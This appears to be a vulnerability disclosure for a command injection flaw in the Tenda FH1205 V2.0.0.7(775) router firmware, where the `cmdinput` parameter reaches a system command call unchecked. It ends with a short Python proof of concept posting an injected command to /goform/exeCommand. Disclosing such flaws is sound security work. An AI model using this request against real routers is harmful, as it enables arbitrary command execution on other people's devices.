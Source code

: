 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

In the Tenda FH1205 V2.0.0.7(775) firmware, we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.

![image-20240407163859236](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163859236.png)

![image-20240407163914599](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163914599.png)

## POC

```python
import requests
IP = "192.168.84.102"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240407162830240](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407162830240.png)
